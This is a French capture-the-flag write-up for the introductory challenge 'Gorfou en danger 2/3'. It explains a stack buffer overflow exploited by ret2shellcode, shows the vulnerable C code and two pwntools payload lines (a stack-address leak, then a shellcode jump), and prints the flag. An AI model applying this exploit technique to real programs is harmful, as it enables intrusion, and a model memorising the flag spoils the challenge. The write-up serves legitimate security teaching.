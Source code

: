 # Writeup pour `Gorfou en danger 2/3`

Auteur : *Pwnsard*  
Difficulté : *Introductif*

### Notions prérequises :
- Fonctionnement d'une stackframe
- Buffer overflow
- Shellcode
- Protections de base

### Protections :

```
checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RUNPATH     43 Symbols	  No	0		2		chall
```

### Principe

Il s'agit d'un buffer overflow basique pour faire un **`ret2shellcode`** sur un buffer de la stack. Cela est possible car le contenu de la stack est executable en tant que code machine (en pratique la stack n'est jamais exécutable, il s'agit d'un challenge introductif).

Dans cette partie du code, il y a un overflow evident de 0x30 bytes :

```C
char command[0x100]; 
printf("> ");
read(0, command, 0x130);
```

Contrairement au challenge précédent, il n'y a pas de fonction qui ouvre directement un shell. Il faut donc amener nous même le code machine malveillant (ce que l'on appelle un shellcode) grâce à la zone mémoire que nous contrôlons, à savoir le buffer `command`.

On a le contrôle du flow d'exécution (il n'y a même pas besoin de leaker un canary), il nous suffit désormais de connaître l'adresse de notre buffer pour aller éxecuter notre code. Il y a une fonction qui permet de trouver très facilement un leak de la stack.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

En envoyant le payload
```python
r.send(b"A" * (0x100 + 8) + p64(exe.symbols['debug_info']) + p64(exe.symbols['take_command']))
```
on réécrit le saved rip avec l'adresse de debug_info, qui nous affiche les adresses. Puis une fois debug_info exécutée, on retourne dans `take_command`, pour exécuter un dernier payload allant exécuter notre shellcode. (Sachant qu'on trouve avec gdb que le shellcode se trouve à une adresse éloignée de 0xf0 de celle leakée) 

```python
r.send(shellcode + (b"\x90" * ((0x108) - len(shellcode))) + p64(leak - 0xf0))
```

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{c3cI_E5T_mA_574ti0n_QUe_voU5_voyE2,_D3rr1Èr3,_lÀ._Pa5_M@L,_nOn_?}`